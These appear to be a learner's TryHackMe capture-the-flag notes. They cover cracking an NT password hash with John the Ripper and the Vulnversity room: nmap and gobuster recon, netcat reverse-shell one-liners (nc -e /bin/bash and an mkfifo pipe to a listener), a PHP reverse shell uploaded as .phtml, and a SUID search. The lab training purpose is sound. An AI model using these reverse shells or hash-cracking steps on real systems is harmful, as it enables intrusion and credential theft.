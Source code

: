 #### John
```bash
echo "Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::" > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash

Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
<password-was-here>         (Jon)
1g 0:00:00:00 DONE (2021-04-21 18:59) 1.851g/s 18889Kp/s 18889Kc/s 18889KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

From here find flags!

### Vulnversity

[TryHackMe ~ Vulnversity](https://tryhackme.com/room/vulnversity)

Notes on the beginner challenge, vulnversity. Covers basic recon, web application testing, file inclusion, reverse shells and privilege esculation.  

#### Nmap Recon
Use nmap to scan ports and try to find details about services and versions on those ports 
```bash
nmap -sV -sC <target>
```

#### Finding web routes
Try bruteforce webpages/directories using [gobuster](https://github.com/OJ/gobuster)
```bash
gobuster dir -u <webapp> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

#### Netcat commands
```bash
basic connection:
nc -lvnp 4444 [> /path/to/file.ext]
nc <ip> <port> [< /path/to/file.ext]

reverse shells:
nc -e /bin/bash <ip> <port>
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```
#### File inclusion for reverse shell
Upload [PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) as `.phtml`, setup a nc listener, load the phtml location.

#### Search for SUID bit
```bash
find / -perm /4000
...
/bin/systemctl
```
